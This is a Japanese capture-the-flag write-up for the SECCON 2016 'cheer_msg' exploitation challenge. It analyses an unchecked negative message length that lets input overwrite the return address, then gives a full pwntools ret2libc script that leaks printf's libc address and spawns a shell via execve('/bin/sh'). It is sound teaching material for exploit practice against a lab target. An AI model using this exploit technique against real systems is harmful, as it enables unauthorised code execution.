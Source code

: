 # cheer msg [100pt] (SECCON 2016 Exploitation)

出題者の方によると簡単な問題とのことだが、自分の実力だとまだまだ苦戦した。  
（というより出題者の方の模範解答を横目に見ながら理解した）  
[SECCON 2016 Online Exploit作問 1/2 ](http://shift-crops.hatenablog.com/entry/2016/12/11/155902)

## 問題文
cheer_msg
Host : cheermsg.pwn.seccon.jp
Port : 30527

libc-2.19.so (SHA1 : c4dc1270c1449536ab2efbbe7053231f1a776368)
cheer_msg(SHA1 : a89bdbaf3a918b589e14446f88d51b2c63cb219f)

## 問題環境再現
出題時のサーバにはアクセスできないため、自前環境で問題を動かす必要がある。  
問題文でlibcが提供されているが、自前の環境ではセグフォが発生してしまったため使用していない。  
サーバ立ち上げ  
````
socat TCP-LISTEN:30527,reuseaddr,fork EXEC:cheer_msg
````

## 回答
バイナリ調査
````
$ file cheer_msg
cheer_msg: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed63cb3a04480eeb344d7d567c893805a1119f2f, not stripped
$ checksec.sh --file cheer_msg
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   cheer_msg
````
- 32bitバイナリ  
- Partial RELRO -> GOT Overwrite可能
- Canary found  -> 単純なStack BOFは難しい

mainの逆アセンブリ結果
````
   0x080485ca <+0>:	lea    ecx,[esp+0x4]
   0x080485ce <+4>:	and    esp,0xfffffff0
   0x080485d1 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080485d4 <+10>:	push   ebp
   0x080485d5 <+11>:	mov    ebp,esp
   0x080485d7 <+13>:	push   ecx
   0x080485d8 <+14>:	sub    esp,0x24
   0x080485db <+17>:	mov    DWORD PTR [esp],0x80487e0
   0x080485e2 <+24>:	call   0x8048430 <printf@plt>
   0x080485e7 <+29>:	call   0x804870d <getint>
   0x080485ec <+34>:	mov    DWORD PTR [ebp-0x10],eax
   0x080485ef <+37>:	mov    eax,DWORD PTR [ebp-0x10]
   0x080485f2 <+40>:	lea    edx,[eax+0xf]
   0x080485f5 <+43>:	mov    eax,0x10
   0x080485fa <+48>:	sub    eax,0x1
   0x080485fd <+51>:	add    eax,edx
   0x080485ff <+53>:	mov    ecx,0x10
   0x08048604 <+58>:	mov    edx,0x0
   0x08048609 <+63>:	div    ecx
   0x0804860b <+65>:	imul   eax,eax,0x10
   0x0804860e <+68>:	sub    esp,eax
   0x08048610 <+70>:	lea    eax,[esp+0x8]
   0x08048614 <+74>:	add    eax,0xf
   0x08048617 <+77>:	shr    eax,0x4
   0x0804861a <+80>:	shl    eax,0x4
   0x0804861d <+83>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048620 <+86>:	mov    eax,DWORD PTR [ebp-0x10]
   0x08048623 <+89>:	mov    DWORD PTR [esp+0x4],eax
   0x08048627 <+93>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0804862a <+96>:	mov    DWORD PTR [esp],eax
   0x0804862d <+99>:	call   0x804863c <message>
   0x08048632 <+104>:	leave  
   0x08048633 <+105>:	ret
````
getint()でメッセージ長を読み取り、その値に応じてmain+68でespの減じている。  
しかし、メッセージ長が負数だった場合のチェックが入っておらず、負の場合はespが増加し、mainのリターンアドレスの上書きが可能となる。  
適当に値を入れて試すと、メッセージ長が-144の場合にぴったりリターンアドレス上に入力を移すことができることがわかる。  
以下、gdbの出力結果
````
gdb-peda$ run
Hello, I'm Nao.
Give me your cheering messages :)

Message Length >> -144
Message >> 
Oops! I forgot to ask your name...
Can you tell me your name?

Name >> AAAA

Thank you AAAA!
Message : 

Program received signal SIGSEGV, Segmentation fault.

gdb-peda$ reg
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffffff 
EDX: 0xf7fb5870 --> 0x0 
ESI: 0xf7fb4000 --> 0x1afdb0 
EDI: 0xf7fb4000 --> 0x1afdb0 
EBP: 0x0 
ESP: 0xffffce70 --> 0xf7fb0000 --> 0x8a6 
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
````
eipが上書きできている。  
これで攻撃可能な脆弱性が判明したため、以下のような方針で攻撃する。  
1. ROPによりprintfでlibcの関数のアドレスをリーク
1. eipをmain()の先頭へ移す
1. リークしたアドレスからevecve()関数,'/bin/sh'へのアドレスを計算
1. 同じ脆弱性をもう一度利用し、evecve('bin/sh')を実行

## Script
````python
# -*- coding:utf-8 -*-
from pwn import *

context(os='linux', arch='i386')
conn = remote("localhost", 30527)

prob = ELF('./cheer_msg')
libc = ELF('/lib32/libc.so.6')

conn.recvuntil('Message Length >> ')
conn.sendline('-144')
conn.recvuntil('Name >> ')

plt_printf = prob.plt['printf']
got_printf = prob.got['printf']
addr_main = prob.symbols['main']
buf = pack(plt_printf) + pack(addr_main) + pack(got_printf)
conn.sendline(buf)
conn.recvuntil('Message : \n')
libc_printf = unpack(conn.read(4))

offset_printf = libc.symbols['printf']
offset_execve = libc.symbols['execve']
offset_binsh = next(libc.search('/bin/sh'))
libc_base = libc_printf - offset_printf
libc_execve = libc_base + offset_execve
libc_binsh = libc_base + offset_binsh

conn.recvuntil('Message Length >> ')
conn.sendline('-144')
conn.recvuntil('Name >> ')
buf = pack(libc_execve) + pack(0xdeadbeef) + pack(libc_binsh) + pack(0) + pack(0)
conn.sendline(buf)

conn.interactive()
````
以上  
改めてpwntools便利だと思った。

